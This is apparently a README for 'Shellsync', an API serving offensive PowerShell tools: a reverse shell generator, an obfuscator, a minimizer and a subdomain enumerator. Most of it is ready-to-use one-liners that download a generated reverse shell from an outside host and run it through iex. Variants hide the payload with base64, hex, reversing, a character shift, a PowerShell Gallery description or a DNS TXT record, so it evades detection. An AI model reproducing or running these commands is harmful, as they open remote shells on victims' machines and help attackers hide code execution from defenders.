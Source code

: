 Shellsync was put together to give Api access to tooling created by Unit 259 

[Demo'd here in David Bomball Video](https://www.youtube.com/watch?v=JFWnMMte3f0)

Tools: 
1. Reverse Shell Generator 
2. Script Obfuscator 
3. Script Minimizer
4. SubDomain Enumerator

# Reverse Shell Generator

<details>
  <summary>Click to expand</summary>

```markdown
Endpoint: `/api1/revshell`
```

[WebApp Version](https://powershellforhackers.com/tools/revshell/generator) [UNDER CONSTRUCTION - Api is fine]

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}' -Method POST | iex
```

### Add Encoding Options with `e` Parameter

| Parameter       | Encoding        |
|-----------------|-----------------|
| b               | Base 64         |
| h               | Hex             |
| u               | Url             |
| a               | Ascii           |
| 0               | Binary          |
| r               | Reverse         |
| x               | Aes Encryption  |
| p               | Padding         |
| s               | Shift {$num}    |
| l               | Shellcode       |


## Parameters are passed individually through a switch statement so you can stack these encoding options

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e={ENCODING}' -Method POST | iex
```

### Base64 Execution 

```powershell
[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=b' -Method Post))) | clip; gcb | iex
```

### Hex Execution 

```powershell
-join([char[]]((irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=h' -Method Post) -split '(..)' | ? { $_ } | % { [convert]::ToInt32($_,16) })) | iex
```

### Reverse Execution 

```powershell
$charArray = (irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=r' -Method Post).ToCharArray();[Array]::Reverse($charArray);-join $charArray | iex
```

### PsGallery Execution

```powershell
[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((find-module example).Description)) -replace '[^\x20-\x7E]' | iex
```

### DNS Txt Record

```powershell
resolve-DnsName rev.website.com -Ty TXT | % { $_.Strings -join "" } | iex
```

### Base64 + Shift 2

```powershell
$en=$(irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=b' -Method post);$sa=2;-join([char[]]$en|%{if($_-cmatch'[A-Za-z0-9]'){$nc=[int]$_-$sa;if($_-cmatch'[A-Z]'){$nc=(($nc-[int][char]'A'+26)%26)+[int][char]'A'}elseif($_-cmatch'[a-z]'){$nc=(($nc-[int][char]'a'+26)%26)+[int][char]'a'}elseif($_-cmatch'[0-9]'){$nc=(($nc-[int][char]'0'+10)%10)+[int][char]'0'};[char]$nc}else{$_}})|%{[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($_))}|clip;gcb|iex
```

</details>

# PS Script Obfuscator

<details>
  <summary>Click to expand</summary>

```markdown
Endpoint: `/api1/obfuscate`
```

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/obfuscate?u=website.com/file&key={$ApiKey}' -Method POST | iex
```
</details>

# PS Script Minimizer

<details>
  <summary>Click to expand</summary>

```markdown
Endpoint: `/api1/mini`
```

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/mini?u=website.com/file' -Method POST
```
</details>

# Enumerate Subdomains
<details>
  <summary>Click to expand!</summary>

```markdown
Endpoint: `/api1/enumsubdomain`
```

[WebApp Version](https://powershellforhackers.com/tools/subdomain/enumerator)

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/enumsubdomain?u=website.com&key={$ApiKey}' -Method POST
```
</details>








